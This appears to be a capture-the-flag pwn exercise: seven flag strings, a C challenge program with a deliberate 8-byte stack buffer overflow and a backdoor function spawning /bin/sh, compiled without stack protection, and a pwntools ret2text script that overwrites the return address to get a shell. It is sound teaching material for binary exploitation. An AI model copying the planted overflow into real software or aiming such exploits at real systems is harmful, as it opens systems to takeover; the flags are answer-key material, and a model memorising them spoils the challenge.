 flag1{577baa20-f0a4-487e-a172-e6bc91e4b392}

flag2{44a80690-be6f-435e-801e-b9e5ffaf231f}

flag3{7972fddb-1eb4-41a7-9d8c-ca757e32dbcc}

flag4{892fa036-867c-409a-af48-6601229ebc0c}

flag5{7a1cc285-65ff-4b51-824d-a831ba520f7c}

flag6{f8fb0360-ff9f-48ba-8d05-76445968bf59}

flag7{26c81534-cf66-417c-97f0-b026a4e8c457}

题目：
```c
#include <stdio.h>
void init(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
}
void vuln(){
    char buf[8];
    puts(">>");
    read(0, buf, 0x100);
}
void backdoor(){
    system("/bin/sh");
}
int main(){
    init();
    vuln();
    return 0;
}

// gcc ret2text1.c -o ret2text1 -fno-stack-protector -no-pie

// gcc ret2text1.c -o ret2text1 -fno-stack-protector -no-pie -m32
```


```python
from pwn import *
#context(os='linux',arch='i386',log_level='debug')
p=process('./ret2text1_32')
elf = ELF('./ret2text1_32')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
bin_sh=0x8048643
bin_sh_chuancan=0x8048585
offset=20
payload=b"a"*offset + p32(bin_sh_chuancan)
p.sendline(payload)
p.interactive()

```
